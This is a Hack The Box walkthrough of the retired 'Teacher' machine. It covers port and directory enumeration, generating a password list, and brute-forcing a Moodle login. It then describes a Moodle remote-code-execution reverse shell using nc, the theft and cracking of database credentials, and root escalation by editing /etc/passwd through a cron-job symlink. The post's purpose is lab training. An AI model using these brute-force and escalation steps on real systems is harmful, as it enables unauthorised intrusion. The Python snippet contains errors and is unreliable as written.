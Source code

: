 ```yaml
---
layout: post
title: "Teacher: Hack The Box Walkthrough"
date: 2019-04-21 02:33:27 +0000
last_modified_at: 2019-04-21 02:33:57 +0000
category: Walkthrough
tags: ["Hack The Box", Teacher, retired]
comments: true
image:
  feature: teacher-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/baby-sitter-children-educator-nanny-1073411/
---
```


This post documents the complete walkthrough of Teacher, a retired vulnerable [VM][1] created by [Gioo][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

Teacher is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.153
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

`nmap` finds `80/tcp` open. Let's go with that.

## Directory/File Enumeration

Based on my experience, it's always good to run some kind of fuzzing when faced with a lack of hints. Let's run `wfuzz` and SecList's `common.txt`, and see what we can find.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://10.10.10.153/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/FUZZ
Total requests: 4593

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000010:  C=403     11 L	      32 W	    291 Ch	  ".hta"
000011:  C=403     11 L	      32 W	    296 Ch	  ".htaccess"
000012:  C=403     11 L	      32 W	    296 Ch	  ".htpasswd"
001232:  C=301      9 L	      28 W	    310 Ch	  "css"
001735:  C=301      9 L	      28 W	    312 Ch	  "fonts"
002067:  C=301      9 L	      28 W	    313 Ch	  "images"
002094:  C=200    249 L	     747 W	   8028 Ch	  "index.html"
002218:  C=301      9 L	      28 W	    317 Ch	  "javascript"
002250:  C=301      9 L	      28 W	    309 Ch	  "js"
002497:  C=301      9 L	      28 W	    313 Ch	  "manual"
002627:  C=301      9 L	      28 W	    313 Ch	  "moodle"
002995:  C=403     11 L	      32 W	    297 Ch	  "phpmyadmin"
003597:  C=403     11 L	      32 W	    300 Ch	  "server-status"

Total time: 47.61103
Processed Requests: 4593
Filtered Requests: 4580
Requests/sec.: 96.46924
```

The site is running Moodle. [Moodle](https://github.com/moodle/moodle) is the world's open source learning platform. Moodle has its fair share of SQLi and RCE vulnerabilities but would require authenticated access.

<a class="image-popup">
![d31325ca.png](/assets/images/posts/teacher-htb-walkthrough/d31325ca.png)
</a>

While I was hunting around for a credential, something caught my eye at the Teacher's gallery page.

<a class="image-popup">
![7f34d280.png](/assets/images/posts/teacher-htb-walkthrough/7f34d280.png)
</a>

I got double F's! Something funky is going on here...

<a class="image-popup">
![0cf66884.png](/assets/images/posts/teacher-htb-walkthrough/0cf66884.png)
</a>

`5.png` is not an image. It's a text file.

<a class="image-popup">
![51d6ef0b.png](/assets/images/posts/teacher-htb-walkthrough/51d6ef0b.png)
</a>

Gotcha!

It's easy to generate a password list for brute-forcing the Moodle login form. You can do it with Python like so.

```python
import string

charset = string.ascii_letters + string.digits + string.punctuations

f = open('passwords.txt', 'w')
s = Th4C00lTheacha
t = ''

for c in charset:
  t += s + c + '\n'

f.write(t)
f.close()
```

Once the password list is generated, we can use `wfuzz` to brute-force it.

```
# wfuzz -w passwords.txt --hh 440 -t 20 -d "anchor=&username=giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 94

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000065:  C=303      6 L	      34 W	    454 Ch	  "Th4C00lTheacha#"

Total time: 17.72110
Processed Requests: 94
Filtered Requests: 93
Requests/sec.: 5.304409
```

The credential is (`giovanni:Th4C00lTheacha#`).

<a class="image-popup">
![ca2fc9fc.png](/assets/images/posts/teacher-htb-walkthrough/ca2fc9fc.png)
</a>

## Low-Privilege Shell

Following the instructions from this [post](https://blog.ripstech.com/2018/moodle-remote-code-execution/), I was able to execute a reverse shell back to me.

First, create a calculated question like so.

<a class="image-popup">
![4cd4b5a0.png](/assets/images/posts/teacher-htb-walkthrough/4cd4b5a0.png)
</a>

Create the formula like so.

<a class="image-popup">
![ef16f0d5.png](/assets/images/posts/teacher-htb-walkthrough/ef16f0d5.png)
</a>

Then execute remote commands on the host to run a reverse shell back to me using `nc`.

<a class="image-popup">
![213a07a8.png](/assets/images/posts/teacher-htb-walkthrough/213a07a8.png)
</a>

There you have it, a low-privilege shell.

<a class="image-popup">
![400efef7.png](/assets/images/posts/teacher-htb-walkthrough/400efef7.png)
</a>

Let's upgrade our shell with a pseudo-TTY using Python and then `stty raw -echo; fg; reset`.

## Privilege Escalation

I'm aware that Moodle connects to a database backend to store all the good stuff. The database settings are in `config.php` at the Moodle directory.

<a class="image-popup">
![30e91902.png](/assets/images/posts/teacher-htb-walkthrough/30e91902.png)
</a>

Let's connect to the database.

<a class="image-popup">
![b4d16fec.png](/assets/images/posts/teacher-htb-walkthrough/b4d16fec.png)
</a>

Cracking the MD5 hash is easy.

<a class="image-popup">
![1dc2b446.png](/assets/images/posts/teacher-htb-walkthrough/1dc2b446.png)
</a>

This is the password to `giovanni`'s account. `user.txt` is in the home directory.

<a class="image-popup">
![2a856c44.png](/assets/images/posts/teacher-htb-walkthrough/2a856c44.png)
</a>

During enumeration of `giovanni`'s account, I noticed the pressence of `work` directory and `/usr/bin/backup.sh` referred to it.

<a class="image-popup">
![dc87e44b.png](/assets/images/posts/teacher-htb-walkthrough/dc87e44b.png)
</a>

If I had to guess, I would say this is inside a `cron` job ran with `root` privileges since `giovanni` has no permissions to edit it.

But, look at the last line. It changes the permissions of any file to `rwxrwxrwx`. What if I put a symbolic link to `/etc/passwd` in it?

<a class="image-popup">
![39075b90.png](/assets/images/posts/teacher-htb-walkthrough/39075b90.png)
</a>

Boom! Anyone can edit `/etc/passwd`. Let's give ourselves `root` access.

```
$ sed -r '1h;x;2s/root:x/toor:to5bce5sr7eK6/' /etc/passwd > /tmp/passwd
$ cp /tmp/passwd /etc/passwd
```

<a class="image-popup">
![7a326bec.png](/assets/images/posts/teacher-htb-walkthrough/7a326bec.png)
</a>

With a `root` shell, getting `root.txt` is a breeze.

<a class="image-popup">
![f6295439.png](/assets/images/posts/teacher-htb-walkthrough/f6295439.png)
</a>

:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/165
[2]: https://www.hackthebox.eu/home/users/profile/623
[3]: https://www.hackthebox.eu/
